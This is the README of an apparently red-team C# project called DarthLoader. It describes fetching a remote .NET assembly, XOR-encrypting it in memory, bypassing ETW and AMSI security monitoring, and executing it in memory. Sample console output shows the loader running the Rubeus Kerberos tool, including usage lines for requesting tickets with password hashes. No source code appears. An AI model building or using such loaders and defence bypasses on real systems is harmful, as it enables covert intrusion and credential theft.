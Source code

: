 # DarthLoader
This is a project heavily inspired by Jean-François Maes's [SANS  Workshop Reflection in C#](https://www.sans.org/webcasts/sans-workshop-reflection-in-c-/) to help (c)sharpen by C# dev skills. A lot of code was borrowed and/or extended for this project from:
- https://github.com/cobbr/SharpSploit/tree/master/SharpSploit/Evasion
- https://jfmaes-1.gitbook.io/reflection-workshop/
- StackOverflow

DarthLoader will do the following:
- Remotely fetch a .Net assembly from the web using a base64 encoded url and Xor the byte array in memory.
- Fetch a local .Net assembly into memory.
- Bypass ETW and AMSI by decrypting function strings at runtime via xor key being passed as cmdline arg.
- Decrypt and run the assembly from memory.

```
 (                            (                                 
 )\ )                 )    )  )\ )              (               
(()/(      )  (    ( /( ( /( (()/(          )   )\ )   (   (    
/(_))  ( /(  )(   )\()))\()) /(_))  (   ( /(  (()/(  ))\  )(   
(_))_   )(_))(()\ (_))/((_)\ (_))    )\  )(_))  ((_))/((_)(()\  
|   \ ((_)_  ((_)| |_ | |(_)| |    ((_)((_)_   _| |(_))   ((_) 
| |) |/ _` || '_||  _|| ' \ | |__ / _ \/ _` |/ _` |/ -_) | '_| 
|___/ \__,_||_|   \__||_||_||____|\___/\__,_|\__,_|\___| |_| 
 
PS D:\SecToolDev\DarthLoader\DarthLoader\bin\x64\Release> .\DarthLoader.exe testing123
[+] ETW bypassed!
[+] AMSI bypassed!
[*] Downloading and encrypting assembly with the key: testing123
[!] .Net assembly downloaded!
[*] Decrypting and executing assembly...

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.6.4


 Ticket requests and renewals:

    Retrieve a TGT based on a user password/hash, optionally saving to a file or applying to the current logon session or a specific LUID:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/outfile:FILENAME] [/ptt] [/luid] [/nowrap] [/opsec]

    Retrieve a TGT based on a user password/hash, start a /netonly process, and to apply the ticket to the new process/logon session:
        Rubeus.exe asktgt /user:USER </password:PASSWORD [/enctype:DES|RC4|AES128|AES256] | /des:HASH | /rc4:HASH | /aes128:HASH | /aes256:HASH> /createnetonly:C:\Windows\System32\cmd.exe [/show] [/domain:DOMAIN] [/dc:DOMAIN_CONTROLLER] [/nowrap] [/opsec]
<-----SNIP----->
```

## To-do
- [X] Paramerize URL 
- [ ] Paramerize assembly parameters
- [ ] remote fetch congfig? (remote fetch assembly URL, Xor key etc.)
- [ ] Help menu
